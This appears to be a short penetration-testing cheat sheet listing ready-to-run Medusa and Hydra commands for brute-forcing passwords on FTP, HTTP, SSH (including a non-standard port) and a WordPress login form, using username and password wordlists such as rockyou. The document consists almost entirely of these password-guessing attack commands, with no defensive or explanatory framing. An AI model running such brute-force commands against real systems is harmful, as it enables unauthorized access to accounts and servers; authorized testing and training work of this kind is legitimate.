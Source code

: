 # Medusa
- FTP: `medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ftp`
- HTTP, Single User, multiple passwords: `medusa -h target-ip -u [username] -P ../creds/passwords.txt -M http`
- HTTP: `medusa -H hosts.txt -U [path to username file] -P [path to password file] -M http`
- SSH non-standard port: `medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ssh -n 2222`
- Output results to log: `medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ftp -O log.txt`

# Hydra
- SSH Example, single user, custom passwordlist - `hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22`
- SSH Example, multiple users, : `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22`
- HTTP POST Request: `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`